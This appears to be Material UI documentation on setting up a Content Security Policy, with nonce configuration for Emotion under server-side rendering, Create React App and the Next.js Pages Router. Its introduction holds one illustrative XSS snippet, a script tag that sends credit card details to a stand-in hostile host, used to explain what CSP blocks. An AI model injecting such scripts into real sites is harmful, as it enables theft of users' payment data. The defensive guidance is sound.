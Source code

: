 # Content Security Policy (CSP)

<p class="description">This section covers the details of setting up a CSP.</p>

## What is CSP and why is it useful?

CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://example.com` the CSP header `default-src: 'self';` will allow all assets that are located at `https://example.com/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input something like:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

This vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP).

## How does one implement CSP?

### Server-Side Rendering (SSR)

To use CSP with Material UI (and Emotion), you need to use a nonce.
A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request.

A CSP nonce is a Base 64 encoded string. You can generate one like this:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

You must use UUID version 4, as it generates an **unpredictable** string.
You then apply this nonce to the CSP header. A CSP header might look like this with the nonce applied:

```js
header('Content-Security-Policy').set(
  `default-src 'self'; style-src 'self' 'nonce-${nonce}';`,
);
```

You should pass the nonce in the `<style>` tags on the server.

```jsx
<style
  data-emotion={`${style.key} ${style.ids.join(' ')}`}
  nonce={nonce}
  dangerouslySetInnerHTML={{ __html: style.css }}
/>
```

Then, you must pass this nonce to Emotion's cache so it can add it to subsequent `<style>`.

:::warning
If you were using `StyledEngineProvider` with `injectFirst`, you will need to replace it with `CacheProvider` from Emotion and add the `prepend: true` option.
:::

```js
const cache = createCache({
  key: 'my-prefix-key',
  nonce: nonce,
  prepend: true,
});

function App(props) {
  return (
    <CacheProvider value={cache}>
      <Home />
    </CacheProvider>
  );
}
```

### Create React App (CRA)

According to the [Create React App Docs](https://create-react-app.dev/docs/advanced-configuration/), a Create React App will dynamically embed the runtime script into index.html during the production build by default.
This will require a new hash to be set in your CSP during each deployment.

To use a CSP with a project initialized as a Create React App, you will need to set the `INLINE_RUNTIME_CHUNK=false` variable in the `.env` file used for your production build.
This will import the runtime script as usual instead of embedding it, avoiding the need to set a new hash during each deployment.

### Next.js Pages Router

For the Next.js Pages Router, after [setting up a nonce](https://nextjs.org/docs/app/building-your-application/configuring/content-security-policy#nonces), pass it to the Emotion cache in two places:

1. In `_document.tsx`:

```tsx
import {
  DocumentHeadTags,
  documentGetInitialProps,
  createEmotionCache,
} from '@mui/material-nextjs/v15-pagesRouter';
// other imports

type Props = DocumentInitialProps & DocumentHeadTagsProps & { nonce?: string };

export default function MyDocument(props: Props) {
  const { nonce } = props;

  return (
    <Html lang="en" className={roboto.className}>
      <Head>
        {/*...*/}
        <meta name="csp-nonce" content={nonce} />
        <DocumentHeadTags {...props} nonce={nonce} />
      </Head>
      <body>
        {/*...*/}
        <NextScript nonce={nonce} />
      </body>
    </Html>
  );
}

MyDocument.getInitialProps = async (ctx: DocumentContext) => {
  const { req } = ctx;
  const nonce = req?.headers['x-nonce'];
  if (typeof nonce !== 'string') {
    throw new Error('"nonce" header is missing');
  }

  const emotionCache = createEmotionCache({ nonce });
  const finalProps = await documentGetInitialProps(ctx, {
    emotionCache,
  });

  return { ...finalProps, nonce };
};
```

2. In `_app.tsx` (if you're setting up the `AppCacheProvider`):

```tsx
import { createEmotionCache } from '@mui/material-nextjs/v15-pagesRouter';
// other imports

export default function MyApp(props: AppProps & { nonce: string }) {
  const { Component, pageProps, nonce } = props;

  const emotionCache = useMemo(() => {
    const nonce = props.nonce || getNonce();

    return createEmotionCache({ nonce });
  }, [props.nonce]);

  return (
    <AppCacheProvider {...props} emotionCache={emotionCache}>
      {/* ... */}
    </AppCacheProvider>
  );
}

function getNonce(headers?: Record<string, string | string[] | undefined>) {
  if (headers) {
    return headers['x-nonce'] as string;
  }

  if (typeof document !== 'undefined') {
    const nonceMeta = document.querySelector('meta[name="csp-nonce"]');
    if (nonceMeta) {
      return nonceMeta.getAttribute('content') || undefined;
    }
  }

  return undefined;
}

MyApp.getInitialProps = async (appContext: AppContext) => {
  const nonce = getNonce(appContext.ctx?.req?.headers);
  if (typeof nonce !== 'string') {
    throw new Error('"nonce" header is missing');
  }

  return { ...otherProps, nonce };
};
```

### styled-components

The configuration of the nonce is not straightforward, but you can follow [this issue](https://github.com/styled-components/styled-components/issues/2363) for more insights.
